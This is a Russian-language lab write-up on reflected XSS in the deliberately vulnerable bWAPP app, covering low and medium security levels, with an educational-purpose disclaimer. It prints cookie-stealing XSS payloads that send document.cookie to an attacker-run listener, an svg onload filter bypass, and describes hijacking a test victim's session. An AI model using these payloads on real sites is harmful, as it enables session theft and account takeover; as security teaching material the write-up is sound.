








# Reflected XSS (GET)
---

Выберите язык / Choose your language:

- 🇷🇺 [Русский](WRITEUP.md)
- 🇬🇧 [English](WRITEUP.en.md)

# Дисклеймер
---

**Текст написан и переведён автором вручную. Для форматирования и стилистической правки использовалась языковая модель.**

**Данный материал подготовлен исключительно в образовательных и исследовательских целях.
Я не поощраю и не призываю к осуществлению неправомерного доступа к информационным системам, нарушению законодательства.
По моему мнению, одним из самых эффективных способов борьбы с киберпреступностью является осведомление как рядовых пользователей и руководителей, так и разработчиков цифровых продуктов о популярных уязвимостях, которые могут быть потенциально использованы злоумышленниками для совершения противоправных актов.**

**⚠️ Все действия, описанные в данном документе, производились в рамках разрешённой исследовательской среды (CTF/тестовая платформа), без нарушения прав третьих лиц и действующего законодательства.**

**Незаконное вмешательство в работу компьютерных систем, нарушение правил хранения и обработки компьютерной информации, а также иные формы так называемого "чёрного" хакерства противоречат закону и этике информационной безопасности.**

**Я придерживаюсь принципов этичного исследования и ответственного раскрытия уязвимостей.**

---

# Введение
---

Buggy Web Application (BWAPP) предлагает набор заданий, который содержит задачи, основанные на ***уязвимости типа "Межсайтовый скриптинг" (XSS)***. (**A03:2021 – Injection**)

***ОХВАЧЕННЫЕ УРОВНИ БЕЗОПАСНОСТИ***
- Низкий
- Средний

# Приложение
---



# Функционал
---



# Эксплуатация (фаза 1)
---

Тестирование на наличие Reflected XSS путем передачи простого XSS-пейлоада в поле `lastname` через BurpSuite или непосредственно на клиентской стороне:

#### Пейлоад (Уровень безопасности - низкий)

```HTML
<script>alert("Basic XSS")</script>
```

## BurpSuite


## Браузер



## Результат



Приложение уязвимо к Reflected XSS. Эту уязвимость можно использовать для кражи cookie других пользователей.

Примечание: для уровней безопасности `medium` и `high` в bWAPP пейлоады будут отличаться из-за реализованных мер безопасности.

## Эксплуатация (Фаза 2)
---

HTTP-сервер можно запустить с помощью Python, используя команду:

```Bash
python3 -m http.server "порт"
```

Я не указал порт, и сервер запустился на порту `8000`.

Когда пользователь переходит по URL с внедренным этим пейлоадом:

```HTML
<script> var pic = new Image(); pic.src = "http://0.0.0.0:8000/steal.php?cookie=" + document.cookie; </script>
```

Его cookie будут отправлены на HTTP-сервер, запущенный на порту `8000`.

Переход по URL от пользователя `bee/bug` привел к успешной краже cookie:


(PHPSESSID содержит токен, используемый для аутентификации пользователей)

Теперь смоделируем взаимодействие с жертвой:



Я создал пользователя-жертву и использовал его учетные данные для входа в bWAPP.

Как только жертва переходит по злонамеренной ссылке (которая в реальном мире обычно предоставляется c помощью методов социальной инженерии), значение cookie отправляется на сервер атакующего:



Сработало! Cookie пользователя `Mamont` были успешно скомпрометированы без его ведома:


(Для более четкого вывода я перезапустил экземпляр)

## Подход для уровня Medium
---

BWAPP на уровне безопасности `medium` реализует защитную меру против базового XSS-пейлоада:

```HTML
<script>alert("Basic XSS")</script>
```

Однако пейлоад на основе `svg` обходит фильтры, что приводит к успешному выполнению кода:

```HTML
<svg onload=alert(1)>
```

### Пейлоад для кражи cookie на уровне Medium

Этот пейлоад аналогичен подходу для низкого уровня, но основан на `svg`:

```HTML
<svg xmlns="http://www.w3.org/2000/svg" onload="var pic=new Image(); pic.src='http://0.0.0.0:8000/steal.php?cookie=' + document.cookie;">
</svg>
```